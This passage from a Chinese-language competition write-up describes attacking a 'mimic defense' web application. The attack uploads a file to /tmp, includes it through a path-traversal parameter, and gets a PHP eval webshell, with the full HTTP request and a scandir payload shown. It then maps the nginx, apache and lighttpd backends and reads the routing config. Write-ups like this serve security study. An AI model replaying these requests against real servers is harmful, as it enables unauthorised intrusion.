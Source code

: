 ```
            }
            var_dump($newfilename);
            if(move_uploaded_file($_FILES["file"]["tmp_name"],$newfilename)) {
                echo sendRequestSingle($config);
            } else
                $this->display('Default/auth_user_manage');
        }
     }
```

这里的上传只能传到/tmp目录下，而且不可以跨目录，所以我们直接传文件上去。

紧接着然后使用之前的文件包含直接包含该文件
```
GET /?c=Auth/User&a=index&assign=0&w=../../../../../../../../tmp/index1&ddog=var_dump(scandir('/usr/local/apache2/htdocs')); HTTP/1.1
Host: 172.29.118.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=spk6s3apvh5c54tj9ch052fp53; think_language=zh-CN
Upgrade-Insecure-Requests: 1
```

上传文件的时候要注意seesion和token，token可以从首页登陆页面获得。

至此我们成功获得了webshell。这里拿到webshell之后就会进入一段神奇的发现。

首先，服务端除了`/usr`以外没有任何的目录，其中`/usr/`中除了3个服务端，也没有任何多余的东西。换言之就是没有`/bin`，也就是说并没有一个linux的基本环境，这里我把他理解为执行体，在他的外层还有别的代码来联通别的执行体。

由于没有`/bin`，导致服务端不能执行system函数，这大大影响了我的攻击效率，这可能也是我被反超的一个原因...

继续使用php eval shell，我们发现后端3个执行体分别为nginx\apache\lighthttpd，实际上来说都是在同一个文件夹下
```
/usr/local/apache2/htdocs
/usr/local/nginx/htdocs
/usr/local/lighttpd/htdocs
```

由于Web的服务器可以随便攻击，有趣的是，在未知情况下，服务端会被重置，但神奇的是，一次一般只会重置3个服务端的一部分，这里也没有拟态裁决的判定，只要单纯的刷新就可以进入不同的后端，其感觉就好像是负载均衡一样。

这样我不禁怀疑起服务端的完成方式，大概像裁决机是被设定拼接在某个部分之前的，其裁决的内容也有所设定，到这里我们暂时把服务端架构更换。

![image.png-31.9kB][5]

# 阅读服务端代码

在拿到shell之后，主办方强调Web服务和题目无关，需要修改后端的访问控制权限，由于本地的代码和远程差异太大，所以首先要拿到远端的代码。

从`/conf/menu.php`中可以获得相应功能的路由表。
```
...
'policy' => array(
    'text' => L('SECURE_POLICY'),
    'childs' => array(
        //访问控制
        'firewall' => array(
            'text' => L('ACCESS_CONTROL'),
            'url' => '?c=Policy/Interview&a=control_show',
            'img' => '28',
            'childs' => ''
        ),
        //地址转换
        'nat' => array(
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2k4skvfxrdpk81z7h7ktz8a3/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wjyknopjz1krhiw5xiwdmck7/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/d5qwbe52uoykxpukj2jng0nq/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/19xgb9vijfro6rt1tmtmq4a2/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/086wtfcoxjv3qiu42cmayvzv/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/inqsfwig6xb3bvudh8dhozzl/image.png